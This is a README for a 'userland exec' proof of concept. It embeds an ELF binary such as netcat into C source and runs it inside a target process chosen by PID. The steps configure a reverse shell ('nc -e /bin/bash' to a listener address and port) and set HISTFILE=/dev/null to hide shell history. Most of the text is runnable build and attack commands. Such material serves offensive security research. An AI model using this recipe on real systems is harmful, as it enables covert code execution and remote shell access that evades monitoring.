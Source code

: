 # userland exec poc
userland exec poc

## Usage
1. download the latest [userland-exec](https://github.com/shuichiro-endo/userland-exec)
```
git clone https://github.com/shuichiro-endo/userland-exec.git
cd userland-exec
```
2. output an elf file you want to run to elffile.h file (e.g. /usr/bin/nc)
```
xxd -i /usr/bin/nc > elffile.h
```
3. get a variable name from elffile.h file (e.g. unsigned char _usr_bin_nc[])
```
head -1 elffile.h
```
4. modify ulexec.c file (exec_file, env_string, env_count, argv_string and argv_count)
```
// head -1 elffile.h
// e.g. unsigned char _usr_bin_nc[] = {
unsigned char *exec_file = _usr_bin_nc;

char *env_string[] = {
"PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin:", 
"SHELL=/bin/bash", 
"HISTFILE=/dev/null", 
"\0", 
"\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0"};	// do not delete

int env_count = 3;

// e.g. nc -e /bin/bash 127.0.0.1 1234
char *argv_string[] = {
"-e", 
"/bin/bash", 
"127.0.0.1", 
"1234", 
"\0", 
"\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0"};	// do not delete

int argv_count = 5;	// e.g. exec file name (1) + argv_string (4) = 5
```
5. build
```
gcc ulexec.c -o ulexec
```
6. run ulexec
```
userland exec
usage         : ./ulexec -p target_pid
example       : ./ulexec -p 12345
```

## License
This project is licensed under the MIT License.

See the [LICENSE](https://github.com/shuichiro-endo/userland-exec/blob/main/LICENSE) file for details.


